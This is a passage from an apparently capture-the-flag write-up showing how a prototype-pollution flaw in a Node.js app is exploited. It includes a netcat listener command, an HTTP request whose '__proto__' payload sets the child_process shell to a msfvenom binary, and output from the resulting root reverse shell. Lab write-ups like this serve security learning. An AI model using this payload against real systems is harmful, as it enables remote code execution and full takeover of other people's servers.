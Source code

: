 Referred to the [official NodeJS documentation](https://nodejs.org/api/child_process.html). We can try shadowing the shell option (or attribute) with the prototype pollution vulnerability.

<img src="/assets/img/pollution/image 44.png" alt="image 44.png" style="width:800px;">

Started the Netcat listener `nc -nlvp 4444` and submitted the following request. Do not forget to attach a dummy value for the text key in the JSON data, or it won’t be merged.

```
POST /admin/messages/send HTTP/1.1
Host: 127.0.0.1:3000
X-Access-Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZHVzayIsImlzX2F1dGgiOnRydWUsInJvbGUiOiJhZG1pbiIsImlhdCI6MTcyOTQ2MjE4MiwiZXhwIjoxNzI5NDY1NzgyfQ.a_q7l27R4WaIdj0N1EQz0m7Q_9zr6j5cYlnXbfeDqws
Content-Type: application/json
Content-Length: 60

{"text":"dummyvalue","__proto__": {"shell":"/tmp/dusk.elf"}}
```

Note: I used the previously generated payload from *msfvenom* but you can also use a one-liner.

Successfully established a reverse shell as root and read the flag. GGs!!!

```
# whoami
root

# id
uid=0(root) gid=0(root) groups=0(root)

# cat /root/root.txt
<REDACTED>
```

